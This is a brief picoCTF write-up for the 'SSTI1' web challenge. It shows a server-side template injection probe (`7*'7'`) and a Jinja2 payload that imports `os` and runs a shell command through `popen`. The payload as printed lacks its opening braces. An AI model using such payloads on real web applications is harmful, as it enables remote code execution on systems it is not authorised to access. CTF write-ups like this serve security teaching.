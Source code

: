 ```yaml
---
layout: post
title:  "SSTI1"
date:   2025-04-16 15:50:00 -0400
categories: PICO-challenge web easy
tags: pico CTF writeup SSTI 
---
```


### CHALLENGE DESCRIPTION
![](assets/img/pico/ssti1/1.png)

### SOLUTION
As we know it has `SSTI` vulnerability, we can try this `${{7*'7'}}` and we get the respond `$7777777`.

Now input our payload:
```bash
{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
